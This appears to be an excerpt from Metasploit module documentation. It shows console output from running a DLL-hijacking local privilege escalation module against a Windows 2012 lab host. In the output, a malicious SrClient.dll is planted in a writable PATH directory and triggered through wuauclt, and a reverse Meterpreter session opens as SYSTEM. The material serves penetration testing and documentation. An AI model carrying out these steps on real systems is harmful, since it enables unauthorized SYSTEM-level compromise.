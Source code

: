 ```


msf exploit(windows/local/srclient_dll_hijacking) > run

[*] Started reverse TCP handler on 192.168.91.12:4444 
[*] Executing automatic check (disable AutoCheck to override)
[*] Target is Windows 2012 (6.2 Build 9200).
[*] Obtaining group information for the current user WIN-FCDUOQDT1NB\wynter...
[*] 
[*]     Everyone
[*]     BUILTIN\Users
[*]     NT AUTHORITY\INTERACTIVE
[*]     CONSOLE LOGON
[*]     NT AUTHORITY\Authenticated Users
[*]     NT AUTHORITY\This Organization
[*]     NT AUTHORITY\Local account
[*]     LOCAL
[*]     NT AUTHORITY\NTLM Authentication
[*] 
[*] Checking for writable directories in %PATH%...
[*] 
[*]     Checking permissions for C:\Windows\system32
[*]     Checking permissions for C:\Windows
[*]     Checking permissions for C:\Windows\System32\Wbem
[*]     Checking permissions for C:\Windows\System32\WindowsPowerShell\v1.0\
[*]     Checking permissions for C:\wynter
[*] 
[+] WIN-FCDUOQDT1NB\wynter has write permissions to the following %PATH% directories:
[*] 
[*]     C:\wynter
[*] 
[+] The target appears to be vulnerable.
[*] Writing 5120 bytes to C:\wynter\SrClient.dll...
[*] Trying to trigger the payload in the background via the shell command `wuauclt /detectnow`
[*] Sending stage (201283 bytes) to 192.168.91.16
[*] Meterpreter session 4 opened (192.168.91.12:4444 -> 192.168.91.16:49159) at 2021-02-16 08:59:24 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
### Windows 2012 x64 - WRITABLE_PATH_DIR option set, Verbose set to false
```
msf exploit(windows/local/srclient_dll_hijacking) > sessions

Active sessions
===============

  Id  Name  Type                     Information                               Connection
  --  ----  ----                     -----------                               ----------
  8         meterpreter x64/windows  WIN-FCDUOQDT1NB\wynter @ WIN-FCDUOQDT1NB  192.168.91.12:8443 -> 192.168.91.16:49158 (192.168.91.16)

msf exploit(windows/local/srclient_dll_hijacking) > show options 

Module options (exploit/windows/local/srclient_dll_hijacking):

   Name               Current Setting  Required  Description
   ----               ---------------  --------  -----------
   SESSION            8                yes       The session to run this module on.
```